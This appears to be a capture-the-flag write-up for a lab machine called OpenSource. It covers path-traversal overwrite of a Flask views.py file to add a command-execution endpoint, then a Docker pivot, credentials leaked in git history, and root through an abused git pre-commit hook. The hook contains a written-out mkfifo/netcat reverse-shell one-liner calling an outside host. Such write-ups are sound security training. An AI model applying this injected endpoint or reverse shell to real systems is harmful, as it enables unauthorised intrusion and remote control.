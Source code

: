 # OpenSource

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Take note of port 3000, it will be important later!&#x20;

### Overwrite for RCE

This website was a file sharing application where we could upload files:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Interestingly, we were allowed to download the entire repository here:

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.

<figure><img src="../../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Within this container, we can see other foreign addresses that are around:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.

<figure><img src="../../../.gitbook/assets/image (38) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.&#x20;

### Gitea&#x20;

When this port was accessed, it was a Gitea instance:

<figure><img src="../../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

Signing into Gitea with the credentials we found earlier works.

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

Notice that there's a home-backup repo, and within it are the user's SSH keys:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

I saw this process run by root:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

After a few minutes, a listener port should catch a shell:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>
